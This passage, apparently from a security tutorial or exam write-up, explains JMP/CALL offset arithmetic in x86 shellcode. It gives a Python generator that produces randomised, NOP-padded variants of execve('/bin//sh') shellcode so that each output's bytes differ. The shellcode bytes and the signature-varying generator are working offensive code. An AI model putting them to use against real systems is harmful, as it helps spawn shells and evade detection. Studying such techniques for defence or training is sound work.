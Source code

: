 In our original shellcode we've got:

{%highlight asm%}
 8048087:	eb 03                	jmp    804808c <shell>

08048089 <flow>:
 8048089:	5b                   	pop    %ebx
 804808a:	cd 80                	int    $0x80

0804808c <shell>:
 804808c:	e8 f8 ff ff ff       	call   8048089 <flow>
 8048091:	2f                   	das

{%endhighlight%}

The "\xe8" is the opcode for the CALL instruction and the other part is a 32
bit signed offset, relative to the instruction **following** the CALL.

We need to make a jump long 7 bytes in a backward direction, that is
\xFF-\x07=\xF8

Then we need to adjust our jump accordingly. When we corrected the first JMP,
we want to reach the beginning of the call, now I want to reach the "\x5b".

After all modifications, and some more GDB sessions to fight against offsets, it turned out that this is the correct JMP/CALL offset adjustment implementation:

{%highlight python%}
def exec_nop_dope():
    init_blk =["\\x6a\\x0b\\x58", "\\x31\\xc9", "\\x31\\xd2"];
    setup_blk=["\\x5b" ];

    n = randint(0, 10);
    init_nop_blk = ["\\x90"]*(n/3)
    setup_nop_blk = ["\\x90"]*(n*2/3)

    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    # The first JMP address is our setup_blk array lenght + 2
    # The second CALL address is FF - our setup_blk array lenght - 6
    jmp_adj = byte_len(setup_blk) + 2
    call_adj = format((255 - byte_len(setup_blk) - 6), 'x')

    return "".join(init_blk)+"\\xeb\\x0"+str(jmp_adj)+"".join(setup_blk)+"\\xcd\\x80\\xe8\\x"+str(call_adj)+"\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

{%endhighlight%}

{%asciicast 197548 %}

### Even more wasted CPU time
